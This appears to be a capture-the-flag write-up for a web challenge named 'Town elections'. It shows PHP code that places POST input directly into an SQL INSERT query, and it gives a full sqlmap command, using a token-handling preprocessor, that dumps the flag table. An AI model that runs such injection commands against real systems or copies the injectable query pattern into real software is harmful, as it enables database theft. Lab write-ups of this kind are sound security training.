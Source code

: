 # Town elections

## Summary

Flag: `UAD360{CsrF_1s_n0t_3n0ugh}`

Description: Elections have just been called, my team and I are wondering if the system is secure.

## Write-up

This challenge only has a single input to submit a candidacy to the elections:

![landpage](img/landpage.png)

For this challenge we are given the source code, doing code review is easy to check that there is a SQL injection in the following piece of code:

```php
if (isset($_POST['president'])) {
    if(isset($_SESSION['csrf_token']) && isset($_POST['csrf_token']) && $_SESSION['csrf_token'] === $_POST['csrf_token'] ){
        $query = "INSERT INTO candidates (cand_name) VALUES('" . $_POST['president'] . "')";
        $conn->query($query);
    }
}
```

However, it checks a single csrf token for each request so we need to make some small changes in order to automate the attack. In my case, I created a `sqlmap` [preprocessor](solver/solver.py) to automate it.

> It could also be done by creating a proxy server or a custom script.


Lastly, we just use `sqlmap` to get the flag with the following command:

```
sqlmap -u http://localhost/index.php --method POST --data "president=*" --dbms=mysql --level 5 --risk 3 --technique=T --preprocess ./solver.py --batch -D elections -T flag --dump

```

Here is the flag:

![Flag](img/flag.png)